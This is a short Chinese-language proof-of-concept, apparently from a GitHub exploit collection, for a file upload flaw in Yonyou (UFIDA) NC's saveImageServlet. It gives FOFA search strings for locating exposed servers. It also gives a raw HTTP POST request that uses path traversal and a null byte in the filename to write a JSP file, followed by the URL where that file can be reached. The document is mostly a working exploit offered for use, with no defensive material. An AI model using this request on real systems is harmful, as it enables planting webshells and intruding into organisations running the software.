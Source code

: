 ## 用友NC_saveImageServlet接口存在文件上传漏洞


## fofa
```
icon_hash="1085941792"  
app="用友-UFIDA-NC"
```

## poc
```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
Host: 
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件路径`http://ip:port/portal/processxml/1.jsp`

![image](https://github.com/wy876/POC/assets/139549762/be012248-101f-4491-863e-4e71c5312ce4)

![image](https://github.com/wy876/POC/assets/139549762/38da1f69-fe44-4cad-b663-b9dfd632d7dd)


